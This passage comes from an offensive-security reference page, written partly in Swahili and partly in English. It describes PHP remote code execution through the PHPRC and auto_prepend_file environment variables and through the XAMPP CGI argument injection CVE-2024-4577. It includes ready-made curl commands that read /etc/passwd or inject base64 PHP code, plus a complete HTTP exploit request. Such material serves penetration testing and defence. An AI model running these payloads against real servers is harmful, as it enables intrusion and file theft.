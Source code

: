 Different .htaccess shells can be found [here](https://github.com/wireghoul/htshells)

### RCE kupitia Env Variables

If you find a vulnerability that allows you to **modify env variables in PHP** (and another one to upload files, although with more research maybe this can be bypassed), you could abuse this behaviour to get **RCE**.

* [**`LD_PRELOAD`**](../../../linux-hardening/privilege-escalation/#ld\_preload-and-ld\_library\_path): Hii env variable inaruhusu kupakia maktaba za kawaida unapoendesha binaries nyingine (ingawa katika kesi hii huenda isifanye kazi).
* **`PHPRC`** : Inatoa maagizo kwa PHP kuhusu **mahali pa kupata faili yake ya usanidi**, ambayo kawaida inaitwa `php.ini`. Ikiwa unaweza kupakia faili yako ya usanidi, basi, tumia `PHPRC` kuonyesha PHP kwenye hiyo. Ongeza **`auto_prepend_file`** kuingiza faili la pili ulilopakia. Faili hii ya pili ina **PHP code ya kawaida, ambayo kisha inatekelezwa** na PHP runtime kabla ya msimbo mwingine wowote.
1. Pakia faili la PHP linalo zawisha shellcode yetu
2. Pakia faili la pili, linalo na **`auto_prepend_file`** maagizo yanayoelekeza preprocessor ya PHP kutekeleza faili tulilopakia katika hatua ya 1
3. Weka variable `PHPRC` kwenye faili tulilopakia katika hatua ya 2.
* Pata maelezo zaidi kuhusu jinsi ya kutekeleza mnyororo huu [**kutoka kwa ripoti ya asili**](https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/).
* **PHPRC** - chaguo lingine
* Ikiwa huwezi **kupakia faili**, unaweza kutumia katika FreeBSD "faili" `/dev/fd/0` ambayo ina **`stdin`**, ikiwa ni **mwili** wa ombi lililotumwa kwa `stdin`:
* `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`
* Au kupata RCE, wezesha **`allow_url_include`** na uongeze faili yenye **base64 PHP code**:
* `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'`
* Technique [**kutoka ripoti hii**](https://vulncheck.com/blog/juniper-cve-2023-36845).

### XAMPP CGI RCE - CVE-2024-4577

The webserver parses HTTP requests and passes them to a PHP script executing a request such as as [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar\&ref=labs.watchtowr.com) as `php.exe cgi.php foo=bar`, which allows a parameter injection. This would allow to inject the following parameters to load the PHP code from the body:
```jsx
-d allow_url_include=1 -d auto_prepend_file=php://input
```
Zaidi ya hayo, inawezekana kuingiza param "- " kwa kutumia herufi 0xAD kutokana na urekebishaji wa PHP baadaye. Angalia mfano wa exploit kutoka [**hiki chapisho**](https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/):
```jsx
POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{host}}
User-Agent: curl/8.3.0
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
phpinfo();
?>

```
## PHP Sanitization bypass & Brain Fuck
